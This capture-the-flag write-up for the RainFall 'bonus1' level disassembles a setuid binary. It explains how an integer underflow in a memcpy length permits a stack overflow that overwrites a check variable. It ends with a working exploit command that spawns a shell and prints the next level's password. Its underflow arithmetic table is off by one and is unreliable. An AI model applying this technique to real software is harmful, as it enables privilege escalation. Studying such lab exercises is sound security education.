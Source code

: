 # bonus1

## Hint

When we log into the machine as `bonus1`, we notice a binary:

```shell-session
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

The first run of the binary is resulting a Segmentation Fault.

```shell-session
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```

And any arguments pass to the binary doesn't seems to do anything.

```shell-session
bonus1@RainFall:~$ ./bonus1 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
bonus1@RainFall:~$
```

Lets dig into it

## gdb

After running `info variables` and `info functions` in gdb, we see no unknown symbols.

Conclusion:
There are no user-defined function or global variables neither.

Ok let's look at `main`

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0                     <-- allign the stack to 16 bytes boundaries
   0x0804842a <+6>:	sub    esp,0x40                           <-- 64 Bytes allocated.
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load *argv[]
   0x08048430 <+12>:	add    eax,0x4                            <-- eax = &argv[1]
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]                <-- eax = argv[1]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax                <-- prepare argv[1] as argument to atoi()
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>               <-- call atoi(argv[1])
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax           <-- store return of atoi(argv[1])
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9           <-- compare return of atoi(argv[1]) with 9
   0x08048446 <+34>:	jle    0x804844f <main+43>                <-- if atoi(argv[1]) <= 9, jump to main+43
   0x08048448 <+36>:	mov    eax,0x1                            <-- set eax to 1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>               <-- jump to main+127 (return(1))
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]           <-- load atoi(argv[1])
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]                    <-- set ecx to atoi(argv[1]) * 4
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load char *argv[]
   0x0804845d <+57>:	add    eax,0x8                            <-- set eax to argv[2]
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]                <-- load char *argv[2]
   0x08048462 <+62>:	mov    edx,eax                            <-- set edx to eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]                     <-- load char buffer[40];
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx            <-- set 3rd argument to i *= 4
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx            <-- set 2nd argument to argv[2]
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax                <-- set 1st argument to buffer
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>             <-- call memcpy(buffer, argv[2], i)
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46    <-- compare i with '1464814662'
   0x08048480 <+92>:	jne    0x804849e <main+122>               <-- if i != '1464814662', jump to main+122 (return(0))
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0            <-- set 3rd argument to 0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580   <-- set 2nd argument to "sh"
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583       <-- set 1st argument to "/bin/sh"
   0x08048499 <+117>:	call   0x8048350 <execl@plt>           <-- call execl("/bin/sh", "sh", 0)
   0x0804849e <+122>:	mov    eax,0x0                         <-- set eax to 0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret                                    <-- return(0)
End of assembler dump.
```

## Identifying the vulnerability 

We clearly can see that the `main` function is calling `execl` with the `/bin/sh` and `sh` arguments.

But how can we get there ?

### Underflowing the integer 

Our first argument to this binary is passed to `i = atoi(argv[1])`.

Then if our first argument is at most equal to `9`.

We can go further.

Then the value returned by `atoi()` is multiplied by `4`.

So `i` becomes `i * 4`. 

Then we have `memcpy(buffer, argv[2], i)`.

The thing to note here is that `memcpy` takes a `size_t` as third argument and therefor implicitly casts the value it is given to an `unsigned` type. This allows us to willingly underflow it.

We pass our second argument to the binary and it is copied byte after byte to the `buffer`.

The `buffer` can hold at most `40` bytes.

We cleary have a buffer overflow potential here. 

But from a simple mathematical standpoint, it is not possible.

Indeed, to get a buffer overflow, we have to pass more than `40` bytes to the `memcpy()` function.

But to get there we can at most give: `9 * 4` = `36 bytes` to `memcpy()`.

After a bit digging we can see that a integer conversion occurs there.

We receive a signed integer from the `atoi()` function, but we pass a unsigned integer to `memcpy()`.

So we must ensure to have a correct value for the `i` variable as a signed integer and pass the first check and still trigger a buffer overflow.

### Overflowing the buffer 

Since the integer is at the higher memory address than the buffer, we can easily overflow this address and pass the condition `if (i == 1464814662)`.

So technically we need more than 40 bytes to overflow the buffer and be able to overwrite the integer.

But how can we pass a positive value to memcpy with a negative integer as input ?

We know that `uint_max = 2^32 - 1 = 4294967295`.

So if we add `1` to `4294967295` we get 0 when casting it to a unsigned integer.

Let's divide by `4` to get the integer.

`4294967296 / 4 = 1073741824`. If we multiple `(unsigned int)(-1073741824 * 4)` we have 0.

We then have a negative integer that passes the crash we can now find our next segfault deeper in the executable.

We will find which value is causing a buffer overflow with `memcpy` now.

Let's find the segfault from there.

```gdb
(unsigned int)(-1073741824 * 4) = 4.
(unsigned int)(-1073741823 * 4) = 8.
(unsigned int)(-1073741822 * 4) = 12.
(unsigned int)(-1073741821 * 4) = 16.
(unsigned int)(-1073741820 * 4) = 20.
(unsigned int)(-1073741819 * 4) = 24.
(unsigned int)(-1073741818 * 4) = 28.
(unsigned int)(-1073741817 * 4) = 32.
(unsigned int)(-1073741816 * 4) = 36.
(unsigned int)(-1073741815 * 4) = 40.
(unsigned int)(-1073741814 * 4) = 44.
(unsigned int)(-1073741813 * 4) = 48.
(unsigned int)(-1073741812 * 4) = 52.
(unsigned int)(-1073741811 * 4) = 56.
(unsigned int)(-1073741810 * 4) = 60.
(unsigned int)(-1073741809 * 4) = 64.  <-- segfault !
```

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809
Segmentation fault (core dumped)
```

We can now overwrite the integer with an exact value and a padding of 40 bytes.

## recap

2 arguments are passed to the program:
1. argv[1] is fed to `atoi()`
   - a variable `i` of type `int `is used to store the returned value
   - it is then tested to be `<=` to 9.
      - false -> return 1
      - true -> continue with program
	 - multiply that value by 4 and call `memcpy`. Though `memcpy` takes a `size_t` as argument and therefor implicitly casts that value to an `unsigned` type.
2. argv[2] is fed to `memcpy` as follows: `memcpy(buffer, argv[2], i);`
   - as we know this function is prone to security exploits, we just need to find the correct value for `i` in order to correctly overflow the destination `buffer`.
   - After a bit of calculations we find a value (`-1073741809`) that not only allows us to pass de `<= 9` test, but also overflow the buffer used in the call to `memcpy` with a value of `64`.
   - Once we have managed to overflow the buffer, we just have to insert with the right padding a specific value at the address of the `i` variable in order to get to the call to `execv("/bin.sh", "sh", 0);`

## Exploit

No need shell code we know exactly where the integer is located. The rest will follow.

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c "print '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
